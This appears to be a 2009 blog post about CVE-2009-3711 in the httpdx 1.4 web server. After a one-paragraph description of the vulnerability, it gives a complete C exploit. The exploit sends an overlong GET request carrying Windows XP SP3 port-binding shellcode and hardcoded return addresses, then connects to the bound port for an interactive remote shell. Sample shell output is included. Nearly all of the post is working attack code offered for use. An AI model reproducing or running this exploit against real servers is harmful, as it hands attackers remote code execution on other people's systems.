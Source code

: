 ```yaml
---
comments: true
date: 2009-09-04 00:38:36+00:00
layout: post
slug: httpdx-1-4-get-request-remote-buffer-overflow-exploit-0day
title: httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
description: httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
wordpress_id: 56
categories:
- Archive
tags:
- CVE-2009-3711
- exploits
- httpdx
- OSVDB-58714
- blog
---
```


httpdx is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the `h_handlepeer()` function. By sending an overly long HTTP GET request, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the application to crash.

This exploit is also available as a metasploit module [here](http://www.metasploit.com/modules/exploit/windows/http/httpdx_handlepeer). Thanks to Trancer for porting it to Metasploit.

{% highlight c %}
/*
 * httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
 *
 * Tested with httpdx 1.4 on Windows XP SP3
 *
 * Written and discovered by Pankaj Kohli
 * http://www.codepwn.com
 *
 * Greetz: str0ke
 *
 * httpdx web server 1.4 is vulnerable to a remote buffer overflow using long GET requests
 * such as http://www.example.com/aaa=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
 * The vulnerability lies in httpdx_src/http.cpp in h_handlepeer() : strcpy(index,client->filereq);
 *
 * pankaj@zion:~$ ./httpdxb0f 192.168.2.1 80
 *
 * ---------------------------------------------------------------------
 * [*] httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
 * [*] Written and discovered by Pankaj Kohli <http://www.codepwn.com>
 * [*] Tested with httpdx 1.4 on Windows XP SP3
 *
 * [+] Creating payload
 * [+] Connecting to 192.168.2.1 on port 80
 * [+] Sending payload
 *
 * [+] Dropping to shell
 *
 * Microsoft Windows XP [Version 5.1.2600]
 * (C) Copyright 1985-2001 Microsoft Corp.
 *
 * C:\Documents and Settings\pankaj\Desktop\httpdx1.4\root_example>
 *
*/

#include <stdio.h>
#include <stdlib.h>
#include <error.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <netdb.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

/* 128 byte portbinding shellcode (for WinXP SP3) port 58821
 Derived from shellcode written by silicon */
unsigned char bindcode[] =
"\x89\xE5"
"\x83\xC4\xEC\x33\xC0\x50\x50\x50\x6A\x06"
"\x6A\x01\x6A\x02\xB8"
"\x6A\x8B\xAB\x71" // WSASocketA()
"\xFF\xD0\x8B\xD8\x33\xC0\x89\x45\xF4\xB0"
"\x02\x66\x89\x45\xF0\x66\xC7\x45\xF2\xE5"
"\xC5\x6A\x10\x8D\x55\xF0\x52\x53\xB8"
"\x80\x44\xAB\x71" // bind()
"\xFF\xD0\x6A\x01\x53\xB8"
"\xD3\x8C\xAB\x71" // listen()
"\xFF\xD0\x33\xC0\x50\x50\x53\xB8"
"\x40\x10\xAC\x71" // accept()
"\xFF\xD0\x8B\xD8\xBA"
"\x63\xD3\x81\x7C" // SetStdHandle()
"\x53\x6A\xF6\xFF\xD2\x53\x6A\xF5\xFF\xD2"
"\x53\x6A\xF4\xFF\xD2\xC7\x45\xFB\x41\x63"
"\x6D\x64\x8D\x45\xFC\x50\xB8"
"\xC7\x93\xC2\x77" // system()
"\xFF\xD0"
"\x31\xC0\x50\xB8"
"\xFA\xCA\x81\x7C" // ExitProcess()
"\xFF\xD0";

/* ripped from TESO code */
void shell (int sock)
{
    int l;
    char buf[512];
    fd_set rfds;

    while (1) {
        FD_SET (0, &rfds);
        FD_SET (sock, &rfds);

        select (sock + 1, &rfds, NULL, NULL, NULL);
        if (FD_ISSET (0, &rfds)) {
            l = read (0, buf, sizeof (buf));
            if (l <= 0) {
                printf("\n - Connection closed by local user\n");
                exit (EXIT_FAILURE);
            }
            write (sock, buf, l);
        }

        if (FD_ISSET (sock, &rfds)) {
            l = read (sock, buf, sizeof (buf));
            if (l == 0) {
                printf ("\n - Connection closed by remote host.\n");
                exit (EXIT_FAILURE);
            } else if (l < 0) {
                printf ("\n - Read failure\n");
                exit (EXIT_FAILURE);
            }
            write (1, buf, l);
        }
    }
}

int main(int argc, char **argv)
{
    char buff[1100];
    long ret1 = 0x64f8134b; // pop ret (core.dll)
    long addr = 0x63b8624f; // Required to reach ret instruction
    long ret2 = 0x7c86467b; // jmp esp (kernel32.dll)
    long *ptr;
    struct sockaddr_in target;
    int i, port, sock;

    printf("\n---------------------------------------------------------------------\n");
    printf(" [*] httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day) \n");
    printf(" [*] Written and discovered by Pankaj Kohli <http://www.codepwn.com> \n");
    printf(" [*] Tested with httpdx 1.4 on Windows XP SP3 \n\n");

    if(argc < 3)
    {
        printf("[-] Usage: %s <Target IP> <Port>\n\n", argv[0]);
        exit(1);
    }

    port = atoi(argv[2]);
    printf("[+] Creating payload \n");

    memset(buff, 0, 1024);
    strcpy(buff, "GET /abc=");
    memset(buff+9, 'A', 616);
    ptr = (long *) (buff + 625);
    *ptr = ret1;
    ptr++;
    *ptr = addr;
    ptr++;
    *ptr = ret2;
    ptr++;
    *ptr = 0;
    strcat(buff, bindcode);
    memset(buff+765, 'A', 244);
    buff[1009] = 0;
    strcat(buff, " HTTP/1.1\r\nHost: 192.168.2.1\r\n\r\n");

    printf("[+] Connecting to %s on port %s \n", argv[1], argv[2]);
    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(argv[1]);
    target.sin_port = htons(port);

    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
        perror("[-] Socket \n");
        return(1);
    }

    if(connect(sock, (struct sockaddr *) &target, sizeof(target)) != 0)
    {
        perror("[-] Connect \n");
        return(1);
    }

    printf("[+] Sending payload \n");
    if (send(sock, buff, strlen(buff), 0)== -1)
    {
        perror("[-] Send \n");
        return(1);
    }

    close(sock);
    sleep(1);

    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(argv[1]);
    target.sin_port = htons(58821);

    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
        perror("[-] Socket \n");
        return(1);
    }

    if(connect(sock, (struct sockaddr *) &target, sizeof(target)) != 0)
    {
        printf("[-] Exploit failed. \n");
        return(1);
    }

    printf("\n[+] Dropping to shell \n\n");
    shell(sock);
    return 0;
}
{% endhighlight %}


